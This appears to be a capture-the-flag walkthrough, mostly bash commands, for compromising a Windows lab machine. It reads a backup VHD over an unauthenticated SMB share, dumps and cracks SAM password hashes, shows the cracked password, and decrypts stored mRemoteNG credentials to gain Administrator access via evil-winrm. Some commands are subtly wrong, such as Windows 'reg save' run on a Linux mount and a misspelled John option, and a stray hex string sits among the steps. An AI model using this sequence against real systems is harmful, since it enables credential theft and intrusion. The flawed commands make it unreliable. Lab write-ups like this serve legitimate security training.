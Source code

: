 **Skills Required**
● Enumeration
**Skills Learned**
● Extracting passwords from SAM
● Exploiting MRemoteNG

SMB Exploitation, Enumerating SMB Shares, VHD Exploration, Exploiting mRemoteNG, Access via Evil-WinRM

---------------------

### SMB Exploitation and Privilege Escalation Tutorial

#### Step 1: Initial Reconnaissance
1. **Port Scanning**: We start by identifying port 445 as an open SMB port on the target IP. SMB (Server Message Block) is a network file sharing protocol.

#### Step 2: Enumerating SMB Shares
1. **Using crackmapexec**: CrackMapExec is a tool used for penetration testing around Active Directory environments. To list available SMB shares, use the following command:
   
   ```bash
   crackmapexec smb ip
   ```

#### Step 3: Null Session Exploitation
1. **Listing Shares with Null Session**: We can exploit a null session to list the shared resources on the target using smbclient:
   
   ```bash
   smbclient -L IP -N
   ```

2. **Viewing Read Permissions**: To see read permissions using smbmap:
   
   ```bash
   smbmap -H IP -u 'null'
   ```

3. **Accessing Backups**: We identify the ability to read and write to backups using smbclient:
   
   ```bash
   smbclient //IP/Backups -N
   ```

#### Step 4: Mounting and Exploring Resources
1. **Creating a Mount Point**: Create a directory for mounting SMB shares:
   
   ```bash
   mkdir /mnt/smb
   ```

2. **Mounting the Share**: Use the `mount` command to mount the share to the mount point:
   
   ```bash
   mount -t cifs //IP/Backups /mnt/smb
   ```

3. **Exploring the Mounted Share**: Navigate to the mounted directory and use the `tree` command to see its contents:
   
   ```bash
   cd /mnt/smb
   tree
   ```

#### Step 5: VHD (Virtual Hard Drive) Exploration
1. **Loading Kernel Module**: Load the kernel module "nbd" to work with virtual hard drives:
   
   ```bash
   modprobe nbd
   ```

2. **Identify NBD Device**: Use the `ls` command to find the /dev/nbdX device to use:
   
   ```bash
   ls /dev
   ```

3. **Using qemu-nbd**: Use qemu-nbd to access the content of a VHD file:
   
   ```bash
   qemu-nbd -r -c /dev/nbd0 "/mnt/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cf.....963.vhd"
   ```

4. **Mounting VHD Partition**: Mount the partition using the nbd device:
   
   ```bash
   mount /dev/nbd0p1 /mnt/vhd
   ```

#### Step 6: Extracting Hashes and Cracking Passwords
1. **Navigate to System and SAM Registries**: Go to the Windows registry directory:
   
   ```bash
   cd /mnt/vhd/Windows/System32/config
   ```

2. **Backup Registries**: Backup the SAM and SYSTEM hives:
   
   ```bash
   reg save HKLM/system system.backup | reg save HKLM/sam sam.backup
   ```

3. **Extracting Hashes**: Use "secretsdump" to extract hashes:
   
   ```bash
   secretsdump -sam SAM -system SYSTEM LOCAL
   ```

4. **Cracking Hashes**: Crack the hashes using a tool like John the Ripper:
   
   ```bash
   john --wordlists=../../wordlist/rockyou.txt hash --format=NT
   bureaulampje     (L4mpje)
   ```

#### Step 7: Privilege Escalation and Access
1. **Connecting via SSH**: Connect using SSH using the obtained credentials:
   
   ```bash
   sshpass -p 'bureaulampje' ssh L4mpje@IP
   ```
900a036bef67206e315dacd62902c1ee
2. **Privilege Escalation Information**: Gather privilege escalation information:
   
   ```bash
   whoami /priv
   whoami /all
   systeminfo
   tasklist
   ```

#### Step 8: Exploiting mRemoteNG
1. **Locate Configuration Files**: Find mRemoteNG configuration files:
   
   ```bash
   cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG
   type confCons.xml
   ```

2. **Decrypting Passwords**: Use "mremoteng_decrypt.py" to decrypt passwords:
   
   ```bash
   python3 mremoteng_decrypt.py -s 'PASSWORD'
   ```

3. **Validating Decrypted Password**: Use the decrypted password with crackmapexec:
   
   ```bash
   crackmapexec smb IP -u 'Administrator' -p 'password'
   ```

4. **Access via Evil-WinRM**: If successful, use evil-winrm to access the machine:
   
   ```bash
   evil-winrm -i IP -u 'Administrator' -p 'passwd'
   ```

#### Step 9: Finding Flags
1. **Locate User Flag**: Explore the user's desktop for the user flag.
3. **Find and Collect Root Flag**: Locate the root flag to complete the challenge.

